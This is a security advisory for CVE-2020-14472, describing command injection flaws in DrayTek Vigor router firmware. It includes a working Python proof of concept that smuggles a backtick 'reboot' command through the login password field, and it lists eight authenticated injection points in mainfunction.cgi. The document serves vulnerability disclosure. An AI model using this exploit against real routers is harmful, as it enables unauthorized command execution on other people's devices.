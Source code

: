 # CVE-2020-14472 CMDi

- Products: DrayTek Vigor2960/3900/300B
- Firmware: < version 1.5.1.1

This CVE contains 1 CMDi without authorization and 8 CMDi with authorization.

****

## An unauthorized **Command Injection** @ mainfunction.cgi

We found an unauthorized CMDi @ mainfunction.cgi with the precondition that the router can be authorized by SMS. The vulnerability will be triggered by `frompassword` value containig injected commands such as "'123456\`reboot\`'".

If the router supports login by SMS and the user's phone number or the content of `/var/sms_phone_auth` is known by the attacker, then the attacker will be able to inject arbitary command by an evil payload such as the injection of `reboot` as the payload below.

```python=
from sys import argv
from base64 import b64encode
import requests

data = {
    "URL": "192.168.1.1",
    "HOST": "http://192.168.1.1",
    "action": "authuser",
    "formusername": b64encode(b"test").decode(),
    "formpassword": b64encode(b"12345678`reboot`").decode(),
    "PHONENUMBER": argv[1] # the known phone number
}
header = {
    "Content-Type": "application/raw"
}
url = {
    "root": "http://192.168.1.1",
    "cgi": {
        "root": "/cgi-bin",
        "uri": {
            "mf": "/mainfunction.cgi",
        }
    }
}

def build_url(p1, p2=None):
    if p2:
        return url["root"] + url[p1]["root"] + url[p1]["uri"][p2]
    else:
        return url["root"] + url[p1]

session = requests.session()
session.post(build_url("cgi", "mf"), data=data, headers=header)
```

****

## Eight authorized CMDi

[These issues are from there. Swing TQL!](https://gist.github.com/WinMin/46165779215f1d47ec257210428c0240)

There are some command injection vulnerabilities in the mainfunction.cgi file. The details are as follows:

**1. in downlaod_ovpn function**  

![](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/20200618181430.png)  
The parameters from http_input are written directly to the buf of s without filtering, followed by system, which can causecommand injection

**2. in doOpenVpn function**  

![](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/20200618181622.png)  
The value of "option" is from "http_input" and later concatenated and used by "system" without any special characters sanitizing, causing command injection

**3. int dumpSyslog_func**  

![](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/20200618182201.png)  
The value of "option" is from "http_input", and single quote character allowed. So, since it is user-controllable, when user input closes the single quote, a command injection is done.

**4. in get_subconfig_func**  

![](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/20200618182534.png)  
"rtick" is from "http_input", and further passed to "sub_F2D8". In "sub_F2D8", "rtick" is concatenated to "/tmp/ipv6_neigh_", then passed to "system", causing command injection.  
![](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/20200618182631.png)

**5. in set_ap_map_config_func**  
The value of "option" is from "http_input",and will be spliced with "/sbin/ipsec_new_cer" , may cause command execution  
![](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/20200618183008.png)

**6. in delete_wlan_profile_func**  

The value of "profile_number " is from "http_input" and will be spliced with "uci delete apm_wlan_profile.profile"， may cause command execution  
![](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/20200618183605.png)

**7. in ruequest_certificate_func**  

The value of "option" will be spliced with "/sbin/ipsec_new_cer" , may cause command execution  
![](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/20200618183646.png)

**8. in doGRETunnel_func**  

The table value will be spliced with "/etc/init.d/gretunnel disconnect_from_web '%s' 1>/dev/null 2>&1" ， may cause command execution  
![](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/20200618183338.png)

****

## Founder
- [C0ss4ck](https://github.com/Cossack9989) @ NJUPT (email: c0ss4ck9989@gmail.com)
- [Swings](https://github.com/WinMin) @ Chaitin (email: weiming.shi@chaitin.com)
- [MozhuCY](https://github.com/MozhuCY) @ NJUPT (email: mozhucy@gmail.com)
